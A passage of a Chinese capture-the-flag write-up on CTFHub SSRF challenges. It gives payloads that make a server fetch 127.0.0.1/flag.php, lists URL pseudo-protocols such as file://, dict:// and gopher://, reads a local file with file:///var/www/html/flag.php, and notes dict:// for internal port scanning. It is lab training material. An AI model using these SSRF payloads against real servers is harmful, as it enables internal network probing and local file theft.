 **解题思路**

可见url为?url=,尝试构造如下payload：``?url=http://127.0.0.1/flag.php``

### 伪协议读取文件

**题目描述**
```
尝试去读取一下Web目录下的flag.php吧
```

**解题思路**
[SSRF中URL的伪协议](https://www.cnblogs.com/-mo-/p/11673190.html)

题目要求用URL的伪协议去读取文件,常见的SSRF的URL伪协议有以下六种
```
file:///
dict://
sftp://
ldap://
tftp://
gopher://
```

构造payload为：?url=file:///var/www/html/flag.php

### 端口扫描

**题目描述**
```
来来来性感CTFHub在线扫端口,据说端口范围是8000-9000哦,
```

**解题思路**

`dict协议`可用来探测内网的主机存活与端口开放情况

